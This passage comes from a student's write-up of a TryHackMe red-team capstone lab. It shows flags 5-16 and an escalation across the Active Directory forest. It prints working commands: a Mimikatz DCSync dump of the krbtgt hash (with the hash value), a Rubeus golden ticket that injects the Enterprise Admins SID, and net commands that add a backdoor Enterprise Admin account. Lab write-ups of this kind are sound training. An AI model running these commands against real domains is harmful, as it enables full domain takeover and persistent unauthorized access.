<figure style="width: 74.48%"></figure>
</section>

<!-- PDF page 40 -->
<section id="pdf-page-40" class="pdf-source-section" data-pdf-page="40" aria-label="Source page 40">
<h2 id="unresolved-domain-access">The Unresolved Domain Admin Step</h2>
<figure style="width: 76.70%"></figure>

I suspected another participant had changed Laura's privileges in the shared lab, but I could not tell who had changed them or when.

I continued with Laura's existing Domain Admin access for the root and BANK domain steps.

</section>

<!-- PDF page 41 -->
<section id="pdf-page-41" class="pdf-source-section" data-pdf-page="41" aria-label="Source page 41">
<h2 id="flags-5-8">Flags 5–8</h2>

For flags 5–8, I created the portal-requested evidence files on Server1 and CORPDC: in <code>C:\Windows\Temp</code> for flags 5 and 7, and under <code>C:\Users\Administrator</code> for flags 6 and 8. Select an image to view it at full size.

<figure><figcaption>Flag 5 — Server1 · Windows Temp</figcaption></figure>
<figure><figcaption>Flag 6 — Server1 · Administrator</figcaption></figure>
<figure><figcaption>Flag 7 — CORPDC · Windows Temp</figcaption></figure>
<figure><figcaption>Flag 8 — CORPDC · Administrator</figcaption></figure>

</section>

<!-- PDF page 42 -->
<section id="pdf-page-42" class="pdf-source-section" data-pdf-page="42" aria-label="Source page 42">
<figure style="width: 100.00%"></figure>
</section>

<!-- PDF page 43 -->
<section id="pdf-page-43" class="pdf-source-section" data-pdf-page="43" aria-label="Source page 43">
<h2 id="forest-trusts">Forest Trusts and Privileged Access</h2>

The network diagram after the next four flag submissions:

<figure style="width: 100.00%"></figure>

The diagram also displayed:

<ul><li>BANKDC .101</li><li>JMP .61</li><li>WORK1 .51</li><li>WORK2 .52</li></ul>

I then examined ROOTDC at 10.200.40.100. The domain names suggested that <code>thereserve.loc</code> was the forest root and that CORP and BANK were child domains.

I queried the domain trusts. The output showed a bidirectional parent-child relationship between CORP and the root domain.

<code>([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()</code>

<figure style="width: 70.50%"></figure>
</section>

<!-- PDF page 44 -->
<section id="pdf-page-44" class="pdf-source-section" data-pdf-page="44" aria-label="Source page 44">

Using Laura's existing CORP privileges, I retrieved the CORP <code>krbtgt</code> secret for the next step: creating a golden ticket.

I used Mimikatz for the DCSync operation described in its <a href="https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump">lsadump module documentation</a>.

I transferred the lab copy of <a href="https://github.com/gentilkiwi/mimikatz">Mimikatz</a> to WRK1.

I ran the DCSync command below in Laura's domain context on WRK1.

<pre><code>.\mimikatz.exe &quot;lsadump::dcsync /domain:corp.thereserve.loc /user:CORP\krbtgt&quot; &quot;exit&quot;</code></pre>
</section>

<!-- PDF page 45 -->
<section id="pdf-page-45" class="pdf-source-section" data-pdf-page="45" aria-label="Source page 45">
<figure style="width: 100.00%"></figure>

I resolved the root-domain Administrator SID, then extracted its domain portion for the ticket.

<pre><code>$acct = New-Object System.Security.Principal.NTAccount(&quot;THERESERVE&quot;, &quot;Administrator&quot;)
$accountSid = $acct.Translate([System.Security.Principal.SecurityIdentifier])
$accountSid.Value
$accountSid.AccountDomainSid.Value</code></pre>

<pre><code>thereserve.loc (Forest Root)
├── SID: S-1-5-21-1255581842-1300659601-3764024703
│
├── corp.thereserve.loc (Child Domain)
│   ├── SID: S-1-5-21-170228521-1485475711-3199862024
│   ├── krbtgt NTLM: 0c757a3445acb94a654554f3ac529ede
│   └── Trust: Bidirectional ParentChild with thereserve.loc
│
└── bank.thereserve.loc (Child Domain)</code></pre>
</section>

<!-- PDF page 46 -->
<section id="pdf-page-46" class="pdf-source-section" data-pdf-page="46" aria-label="Source page 46">
<pre><code>    ├── SID: S-1-5-21-3455338511-2124712869-1448239061
    └── Trust: Bidirectional ParentChild with thereserve.loc</code></pre>

A security identifier (SID) identifies a security principal. A domain account or group SID combines the domain SID with a relative identifier (RID). RID 500 identifies the built-in Administrator; RID 519 identifies Enterprise Admins in the forest root. See <a href="https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers">Microsoft's SID reference</a>.

Rubeus was included in the supplied tools. Its <a href="https://github.com/GhostPack/Rubeus">official documentation</a> describes Kerberos ticket creation and import.

I used the CORP key and domain SID to forge a ticket, adding the root-domain Enterprise Admins SID through <code>/sids</code>. <code>/ptt</code> imported it into my current logon session.

<pre><code>.\Rubeus.exe golden /rc4:0c757a3445acb94a654554f3ac529ede /domain:corp.thereserve.loc /sid:S-1-5-21-170228521-1485475711-3199862024 /sids:S-1-5-21-1255581842-1300659601-3764024703-519 /user:Administrator /ptt</code></pre>

<figure style="width: 100.00%"></figure>
</section>

<!-- PDF page 47 -->
<section id="pdf-page-47" class="pdf-source-section" data-pdf-page="47" aria-label="Source page 47">

I used <code>klist</code> to view the imported ticket.

<figure style="width: 80.97%"></figure>

I connected to ROOTDC using <code>Enter-PSSession</code>, then created a domain account and added it to Enterprise Admins.

<pre><code>Enter-PSSession -ComputerName ROOTDC.THERESERVE.LOC
# The next commands run in the remote ROOTDC session shown in the screenshot.
net user n0debranchEA Passwd123! /add /domain
net group &quot;Enterprise Admins&quot; n0debranchEA /add /domain
net user n0debranchEA /domain</code></pre>

<figure style="width: 100.00%"></figure>

I then created another root-domain account and a BANK-domain account, adding each to its domain's Domain Admins group. The screenshots below show the account changes on ROOTDC and BANKDC.

</section>

<!-- PDF page 48 -->
<section id="pdf-page-48" class="pdf-source-section" data-pdf-page="48" aria-label="Source page 48">
<h2 id="remaining-evidence">Collecting the Remaining Flags</h2>

The ROOTDC and BANKDC sessions:

<figure style="width: 100.00%"></figure>

<figure style="width: 100.00%"></figure>

<figure style="width: 100.00%"></figure>

<h2 id="flags-9-16">Flags 9–16</h2>

I used the additional root- and BANK-domain access to collect flags 9–16. The evidence is grouped below in flag order. Select an image to view it at full size.

<figure id="flag-9"><figcaption>Flag 9</figcaption></figure>
<figure id="flag-10"><figcaption>Flag 10</figcaption></figure>
<figure id="flag-11"><figcaption>Flag 11</figcaption></figure>
<figure id="flag-12"><figcaption>Flag 12</figcaption></figure>
<figure id="flag-13"><figcaption>Flag 13</figcaption></figure>
<figure id="flag-14"><figcaption>Flag 14</figcaption></figure>
<figure id="flag-15"><figcaption>Flag 15</figcaption></figure>
<figure id="flag-16"><figcaption>Flag 16</figcaption></figure>

</section>

<!-- PDF page 51 -->
<section id="pdf-page-51" class="pdf-source-section" data-pdf-page="51" aria-label="Source page 51">
<h2 id="where-the-attempt-ended">Where the Attempt Ended</h2>

The final recorded network diagram:

<figure style="width: 100.00%"></figure>

The lab reset before I reached the SWIFT stage, and I lost access. I was doing the room for my Certificate IV assessment, so I kept the work from that run rather than starting over in a fresh deployment.

Because this room runs a complex environment, users can vote to reset it when issues start affecting the lab. That user-voted reset is what caused this run to end.

I did not continue through the jump host into the SWIFT application or make the final transfer.

Here is where I got to:

</section>

<!-- PDF page 52 -->
<section id="pdf-page-52" class="pdf-source-section" data-pdf-page="52" aria-label="Results and references">
<h2 id="evidence-and-gaps">Where I Got To</h2>

<table>
<thead><tr><th>Stage</th><th>What happened</th></tr></thead>
<tbody>
<tr><td>Reconnaissance</td><td>I scanned the exposed hosts and found staff names, web paths, and the VPN portal.</td></tr>
<tr><td>Corporate access</td><td>I obtained VPN profiles and working credentials, connected to the VPN, and signed in to WRK1 and WRK2.</td></tr>
<tr><td>Local administration</td><td>I replaced the Backup service binary, created a local administrator account, and signed in with it.</td></tr>
<tr><td>Domain discovery</td><td>I collected data with SharpHound, encountered LDAP and forest-resolution errors, and imported the resulting files into BloodHound.</td></tr>
<tr><td>CORP privileges</td><td>Laura already had Domain Admin membership when I checked. I continued with that access; I did not find out how it had been granted.</td></tr>
<tr><td>Root and BANK domains</td><td>I created a ticket, connected to ROOTDC, changed domain accounts, and collected flags through flag 16.</td></tr>
<tr><td>SWIFT</td><td>The lab reset before I reached this stage.</td></tr>
</tbody></table>

If I revisit the room, I would start with a fresh deployment, work through CORP privilege escalation, and continue into the SWIFT environment.

<h2 id="lessons-learned">What I Learned</h2>

Remmina's shared folder made moving files much easier. I also had to keep track of my changing VPN address and which account I was using on each host. Next time I would keep clearer notes on those details and the SharpHound errors.

<h2 id="references">References</h2>

<ul>
<li><a href="https://tryhackme.com/room/redteamcapstonechallenge">TryHackMe — Red Team Capstone Challenge</a></li>
<li><a href="https://www.swift.com/about-us/who-we-are">Swift — who we are and how financial messaging works</a></li>
<li><a href="https://nmap.org/book/man-host-discovery.html">Nmap — host discovery</a></li>
<li><a href="https://openvpn.net/community-docs/community-articles/openvpn-2-6-manual/">OpenVPN — 2.6 reference manual</a></li>
<li><a href="https://learn.microsoft.com/en-us/windows-server/storage/file-server/smb-signing-overview">Microsoft — SMB signing</a></li>
<li><a href="https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal">Microsoft — Antimalware Scan Interface</a></li>
<li><a href="https://powersploit.readthedocs.io/en/latest/Privesc/Invoke-PrivescAudit/">PowerSploit — Invoke-PrivescAudit</a></li>
<li><a href="https://powersploit.readthedocs.io/en/latest/Privesc/Install-ServiceBinary/">PowerSploit — Install-ServiceBinary</a></li>
<li><a href="https://learn.microsoft.com/en-us/powershell/module/defender/set-mppreference">Microsoft — Set-MpPreference</a></li>
<li><a href="https://github.com/SpecterOps/SharpHound">SpecterOps — SharpHound collector</a></li>
<li><a href="https://bloodhound.specterops.io/collect-data/ce-collection/sharphound">SpecterOps — SharpHound Community Edition documentation</a></li>
<li><a href="https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/domain-join-networking-errors">Microsoft — domain-controller discovery and networking</a></li>
<li><a href="https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers">Microsoft — security identifiers and well-known RIDs</a></li>
<li><a href="https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-all">Microsoft — secret-data replication permission</a></li>
<li><a href="https://github.com/gentilkiwi/mimikatz">Mimikatz — official project</a></li>
<li><a href="https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump">Mimikatz — lsadump module</a></li>
<li><a href="https://github.com/GhostPack/Rubeus">Rubeus — official project and command documentation</a></li>
</ul>

</section>


